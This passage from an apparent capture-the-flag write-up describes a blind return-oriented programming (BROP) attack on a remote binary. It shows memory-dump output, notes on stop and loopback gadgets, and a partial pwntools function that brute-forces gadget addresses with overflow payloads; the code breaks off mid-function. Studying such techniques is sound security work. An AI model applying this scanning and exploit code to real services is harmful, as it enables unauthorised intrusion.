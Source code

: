 ```bash
Offset 1804 Addr 4196108 b'Are you blind my friend?\nNo password for you!\n'
Offset 1806 Addr 4196110 b'Are you blind my friend?\nDo not dump my memory!\n'
Offset 1811 Addr 4196115 b'Are you blind my friend?\nAAAAAAAA>\x00\x00\x00\x00\x00\x00\x00 \x96\xfc\xb8\xac\x7f\x00\x00`\xa7 z\xfe\x7f\x00\x00\xa0\xa8 z\xfe\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H7\xc7\xb8\xac\x7f\n'
Offset 1818 Addr 4196122 b'Are you blind my friend?\nNo password for you!\n'
Offset 1823 Addr 4196127 b'Are you blind my friend?\nAAAAAAAA>\x00\x00\x00\x00\x00\x00\x00 6G\xea\xc2\x7f\x00\x00\x00[\xf0\xfc\xfc\x7f\x00\x00@\\\xf0\xfc\xfc\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\xd7\x11\xea\xc2\x7f\n'
```

We got a lot of info from these fucntions. Let me go over them a little bit.

* So we see that at some offset, the function that takes our input gets callbacked again. So i manually went over the offsets and found which functions allows us to loopback to the start without crashing. I set the address to a variable `LOOPBACK_FUNC = BINARY_BASE + 0x5c0`

* We see that there is also a function which leaks `libc` address and also takes our input. This would've been much easier to use to exploit but I thought that this kinda seems unintentional.

* There is also a troll function which when called prints out `Do not dump my memeory!`

At the end we update our global variables with - 
```py
DUMP_FUNC = BINARY_BASE + 1806
LOOPBACK_FUNC = BINARY_BASE + 0x5c0
```

## BROP
---
We've done our reconnaissance, now we have to plan how to exploit this. We can use `Blind Return Oriented Programming` which is a technique we use when we have to `ROP` without the target binary.  

These are the things we need to perform a `BROP` attack:

* A `stop gadget` or something that when called will either stop the execution or print something know to us. I decided to use the troll `DUMP_FUNC`

* Next step is to find the special `BROP` gadget that allows us to control `RDI` and can be spotted easily. I'll go over this later.

* Next we need to leak libc for that we'll use the `plt` and `got` to our advantage.  

## The Special BROP Gadget
---
This [article](https://kn0wledge.fr/write-ups/pwn-blind-date/#finding-a-brop-gadget) does a much better job at explaining about how this gadget works and how to find it. Basically, at some address it pops `6` values into registers and then returns and at another offset it only pops `2` values and returns and there is finally another offset it only pops into `RDI` and returns.  

Heres the function that I used - 
```py
def FindBropGadget():
    possible = []
    for i in range(BINARY_BASE, BINARY_BASE+0x1000):
        pwn.log.info("Scanning: " + hex(i))
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(i)  # Possible pop gadget
        payload += pwn.p64(0)  # pop rbx
        payload += pwn.p64(0)  # pop rbp
        payload += pwn.p64(0)  # pop r12
        payload += pwn.p64(0)  # pop r13
        payload += pwn.p64(0)  # pop r14
        payload += pwn.p64(0)  # pop r15
        payload += pwn.p64(DUMP_FUNC)
```